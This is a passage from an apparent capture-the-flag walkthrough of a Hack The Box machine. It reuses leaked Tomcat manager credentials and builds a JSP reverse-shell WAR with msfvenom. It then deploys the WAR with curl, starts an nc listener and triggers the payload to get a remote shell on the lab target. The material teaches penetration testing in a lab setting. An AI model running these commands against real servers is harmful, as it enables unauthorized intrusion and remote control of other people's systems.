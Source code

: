 ![Image for post](https://miro.medium.com/max/2538/1*NCz6J7-aqJFlV98_PoLNJw.png)

As can be seen in the above figure, there’s a user with the username “tomcat” and the password “$3cureP4s5w0rd123!”. The user also has the roles “admin-gui,manager-script”. Looking at the tomcat documentation, the following are the descriptions of the roles:

* **admin-gui:** gives the user the ability to configure the Host Manager application using the graphical web interface.
* **manager-script:** gives the user the ability to configure the Manager application using the text interface instead of the graphical web interface.

Therefore, if we try to log into the manager interface using the GUI, it won’t work. Instead, we’ll have to do it using the command line.

Before we do that, let’s first generate a war file that contains a reverse shell.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.12 LPORT=53 -f war > rkhal101.war
```

Next, use curl to upload the war file to the tomcat manager interface.

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" --upload-file rkhal101.war http://10.10.10.194:8080/manager/text/deploy?path=/rkhal101
```

* **-u:** username:password
* **— upload-file:** the path to the file to upload

The URL to deploy the file can be found on the official [tomcat documentation](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_%28WAR%29_Remotely). Note that we had to escape the $ sign in the password for the password to be interpreted correctly.

The above command gives us a success message.

```text
OK - Deployed application at context path [/rkhal101]
```

We can also see the list applications using the following command.

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" http://10.10.10.194:8080/manager/text/list
```

Next, setup a listener to receive the reverse shell.

```text
sudo nc -nlvp 53
```

Then call the deployed war file.

```text
curl http://10.10.10.194:8080/rkhal101/
```

We get a shell!

![Image for post](https://miro.medium.com/max/1036/1*CWiY-OCjhkTm7t5tq3-DuA.png)
